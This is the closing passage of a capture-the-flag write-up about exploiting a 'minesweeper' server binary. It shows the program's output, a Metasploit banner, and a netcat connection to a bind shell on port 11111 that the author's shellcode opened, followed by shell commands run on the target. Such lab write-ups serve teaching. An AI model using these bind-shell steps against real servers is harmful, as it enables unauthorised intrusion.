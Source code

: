 ```
Invalid option, please try again N, I, or Q please!

Hi. Welcome to Minesweeper. Please select an option:
1) N (New Game)
2) Initialize Game(I)
3) Q (Quit)

Please enter in the dimensions of the board you would like to set in this format: B X Y

HI THERE!!
/\x07  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |''''''''''''|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            / \            | |_____________\_______    |
  |           /   \           | |==[--- >]============\   |
  |          /     \          | |______________________\  |
  |         / RECON \         | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        /         \        |  *********************    |
  +---------------------------+---------------------------+
                                                           
IIIIII    dTb.dTb        _.---._       
  II     4'  v  'B   ."""" /|\`."""".
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'  
IIIIII     'YvP'       `-.__|__.-'     
-msf                                   
Please send the string used to initialize the board. Please send X * Y bytes follow by a newlineHave atleast 1 mine placed in your board, marked by the character X

[*] Switching to interactive mode
```

Because we are attacking a server, I just had my shellcode bind a shell to port `11111` which we can connect to:

```
$    nc 127.0.0.1 11111
w
 03:51:43 up  9:56,  1 user,  load average: 0.19, 0.11, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               17:56   ?xdm?  10:05   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
ls
back.py
core
exploit.py
heapLeak.py
jmp.asm
jmp.o
minesweeper
notes
readme.md
```

Just like that, we popped a shell!
